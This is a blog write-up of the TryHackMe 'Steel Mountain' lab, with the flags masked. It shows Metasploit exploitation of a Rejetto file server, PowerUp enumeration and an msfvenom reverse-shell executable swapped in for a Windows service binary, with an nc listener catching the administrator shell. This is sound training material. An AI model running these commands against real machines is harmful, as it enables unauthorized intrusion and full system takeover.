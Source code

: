 ```yaml
---
title: "TryHackMe-SteelMountain" 
layout: post
date: 2020-04-28 22:44
image: pictures/Steel_Mountain/steelmountain.jpg
headerImage: false
tag:
- markdown
- elements
category: blog
author: DeShaun Ormond
description: Hello How are your
---
```



Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.

You can access this room here: [SteelMountain](https://tryhackme.com/room/steelmountain)

__You will need a subscription to complete this box__
## Table of Contents

- [Task 1: Introduction](#introduction)
- [Task 2: Initial Access](#initial-access)
- [Task 3: Privilege Escalation](#privilege-escalation)
<!--- [Task 4: Access and Escalation Without Metasploit](#access-and-escalation-without-metasploit) --> 


### Introduction

**Let's Begin!**


**Question 1: Deploy the machine. Who is the employee of the month?**
  
Deploy the box and run a nmap scan!

~~~
nmap -sC -sV <boxip> 
~~~

 ![nmap_scan](pictures/Steel_Mountain/nmap_scan.png)

We have two http services running, let's take a look at those websites!  Access the web service running on port 80
~~~
http://boxip:80
~~~

Right clik the image and click on image info. The name of the image will be our first flag! 
![alt text](/pictures/Steel_Mountain/Flag1.png)


{: .box-success}
**Flag 1 :** XXX XXXXXX

### Initial Access

**Question 1: Scan the machine with nmap. What is the other port running a web server on?**
 
  Nmap already found what port the other web server was running.  
 
 {: .box-success}
**Flag :**XXXX

**Question 2: Take a look at the other web server. What file server is running?**

Access the webserver on port 8080 
~~~
http://boxip:8080
~~~

![alt text](/pictures/Steel_Mountain/port8080.png)

If you look at the bottom left hand corner we see the file server version. If we click on the blue link it takes us to "Rejetto.com". Put two and two together and you now have your answer for the next flag! 

{: .box-success}
**Flag 2.2 :** XXXXXXX XXXX XXXX XXXXXX

**Question 3: What is the CVE number to exploit this file server?**

There are a lot of different ways to obtain the answer to this question, but I chose the quick route and googled 'Rejetto HTTP File Server Exploit'. This leads me to websites from Exploitdb and rapid7! Pick one and scroll down and you will find the CVE number. 

{: .box-success}
**Flag 2.3 :** XXXX-XXXX
 
> Question 4: Use Metasploit to get an initial shell. What is the user flag?
 
 Since rapid7 is the creator of Metasploit, it is a good bet that our CVE will be on metasploit. Let's run metasploit and exploit this box. 
 ~~~
 - msfconsole 
 - search rejetto 
 - use 0
 - set RHOST <boxip> 
 - set RPORT <8080>
 - set srvhost <vpn-ip>
 - run
~~~

 ![meterpreter shell](/pictures/Steel_Mountain/meterpreter1.png)
 
 It looks like that exploit worked! We now have a meterpreter shell on the vulnerable machine. Type 'pwd' to find out what directory you are in. 

 Navigate to bill's 'Desktop' directory where you will find the user.txt file. Read the file and you will have your flag! 


![flag2.4](/pictures/Steel_Mountain/Flag2_3.png)


{: .box-success}
**Flag2.4 :** XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX



### Privilege Escalation


  Now that we have a shell on this machine it is time to enumerate it! This room introduces us to PowerUp, a powershell script that is designed "to evaluate a Windows machine and determine any abnormalities". 

  You can download it from here [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) , or you can _open another terminal_ and run this command. 

~~~
curl https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 --output PowerUp.ps1

~~~

This will output a copy of the file to your current directory. Switch back to the terminal that has your meterpreter shell running and upload the file. Once you have uploaded it, you will need to load up powershell and run the commands given. 

 
 ![meterpreter upload](/pictures/Steel_Mountain/meterpreterupload.png)
 
 ```
  ps> . . \PowerUp.ps1
  ps> Invoke-AllChecks
 ```

The enumeration file should start to run and you should get back some information on what service is running on this machine. Locate the services that have 'CanRestart' option set equal to 'True'. This will be your answer for the next flag! 

![flag3.2](/pictures/Steel_Mountain/psscan.png)


{: .box-success}
**Flag :** XXXXXXXXXXXXXXXXXXX 


**Question 3: Use msfvenom to generate a reverse shell as an Windows executable. 
Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.**


Let's give it a shot! First lets create a reverse shell using msfvenom and output it to a file witht the same name. Open up a new terminal and enter the following command:

~~~
msfvenom -p windows/shell_reverse_tcp LHOST=X.X.X.X LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe
~~~

Once that is done, switch back to your exploited machine and ctrl-c out of powershell and upload the malicious replicate file. 

![msfvenom](/pictures/Steel_Mountain/msfvenom.png)

After the uploading is complete, drop into a shell by entering 'shell'. Once you have a shell, enter this command to stop the service. 

~~~
 > sc stop AdvancedSystemCareService9 
~~~

Perfect! We have stopped the service, now we need to switch it out with our malicious one. 

![Malware](/pictures/Steel_Mountain/copyASC.png)

We now have to open a new terminal, start a listening session on port 4443 and then start the service. **Create a listening session first!**

~~~
- New terminal: nc -nlvp 4443
- Exploited Terminal: sc start AdvancedSystemCareService9
 ~~~

Boom! You will see a shell pop up on your listening terminal and you will have root access to the machine!

{: .box-success}
**No Answer Needed** 

On your new terminal, navigate to Administrator's Desktop and print out root.txt

![Final Flag](/pictures/Steel_Mountain/Final_flag.png)


**Question #4: What is the root flag?**


{: .box-success}
**FLAG :**XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX



 



<!--
### Access and Escalation Without Metasploit

 The final task walks you through how to get access and escalation withoug using metasploit. 
 I won't walk you through but here is the answer to question 2:

{: .box-success}
 *powershell -c "Get-Service"*
{: .box-note}
*Note:** This is a notification box.### Warning {: .box-warning *Warning:** This is a warning box.### Error<!-- {: .box-error}**Error:** This is an error box. -->



